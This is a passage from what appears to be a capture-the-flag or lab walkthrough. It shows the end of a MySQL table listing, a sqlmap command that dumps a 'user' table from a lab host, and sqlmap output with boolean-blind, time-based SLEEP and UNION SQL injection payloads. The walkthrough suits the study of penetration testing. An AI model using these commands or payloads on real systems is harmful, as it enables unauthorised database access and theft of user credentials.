 | help_category                         |
| help_keyword                          |
| help_relation                         |
| help_topic                            |
| host                                  |
| proc                                  |
| procs_priv                            |
| tables_priv                           |
| time_zone                             |
| time_zone_leap_second                 |
| time_zone_name                        |
| time_zone_transition                  |
| time_zone_transition_type             |
+---------------------------------------+

{% endhighlight %}

### SQLMap Dump Hahes + Crack hashes

{% highlight bash %}
sqlmap -u "http://192.168.30.147/index.html?page=blog&title=Blog&id=2" -p id -D ehks -T user  --dump
{% endhighlight %}


{% highlight bash %}

_
___ ___| |_____ ___ ___  {1.0-dev-nongit-20150826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
|_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:15:25

[12:15:25] [INFO] resuming back-end DBMS 'mysql'
[12:15:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: page=blog&title=Blog&id=2 AND 7114=7114

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))kOtW)

Type: UNION query
Title: Generic UNION query (NULL) - 5 columns
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162707871,0x4f75614351414f4d6e69,0x7176717671),NULL--
